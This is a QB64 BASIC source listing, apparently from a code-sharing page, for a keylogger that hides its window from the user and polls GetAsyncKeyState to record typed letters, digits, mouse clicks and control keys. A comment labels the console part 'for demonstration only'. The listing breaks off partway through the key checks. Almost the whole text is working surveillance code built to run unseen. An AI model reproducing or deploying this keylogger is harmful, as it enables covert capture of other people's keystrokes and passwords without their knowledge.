 ```vb

$CONSOLE
_DEST _CONSOLE ' for demonstration only
PRINT "The actual program is hiding. Type some stuff!"
PRINT
PRINT "Press ESC to quit logging keys and see results.":
_DEST 0
'#### #### #### #### #### ##  End Demo Console Code #### #### #### #### #### ## 



DO : LOOP UNTIL _SCREENEXISTS 'to prevent unexpected freezing
_SCREENHIDE 'makes the program invisible to the user. Escape key displays log!

DECLARE LIBRARY  'function is already used by QB64 so "User32" is not required
  FUNCTION GetAsyncKeyState% (BYVAL vkey AS LONG)
END DECLARE

DIM theitem$(1000)

DO: _LIMIT 100
  FOR thekey = &H30 TO &H5A
    IF GetAsyncKeyState(thekey) THEN
      theitem$(a) = theitem$(a) + CHR$(thekey)
      DO
      LOOP UNTIL GetAsyncKeyState(thekey) = 0
    END IF
  NEXT
  IF GetAsyncKeyState(1) THEN
    a = a + 1
    theitem$(a) = "{MOUSE LEFT}"
    DO
    LOOP UNTIL GetAsyncKeyState(1) = 0
  END IF
  IF GetAsyncKeyState(2) THEN
    a = a + 1
    theitem$(a) = "{MOUSE RIGHT}"
    DO
    LOOP UNTIL GetAsyncKeyState(2) = 0
  END IF
  IF GetAsyncKeyState(4) THEN
    a = a + 1
    theitem$(a) = "{MOUSE MIDDLE}"
    DO
    LOOP UNTIL GetAsyncKeyState(4) = 0
  END IF
  IF GetAsyncKeyState(8) THEN
    theitem$(a) = theitem$(a) + "{BS}"
    DO
    LOOP UNTIL GetAsyncKeyState(8) = 0
  END IF
  IF GetAsyncKeyState(9) THEN
    theitem$(a) = theitem$(a) + "{TAB}"
    DO
    LOOP UNTIL GetAsyncKeyState(9) = 0
  END IF
  IF GetAsyncKeyState(&HD) THEN
    a = a + 1
    theitem$(a) = "{ENTER}"
    DO
    LOOP UNTIL GetAsyncKeyState(&HD) = 0
  END IF
  IF GetAsyncKeyState(&H14) THEN
```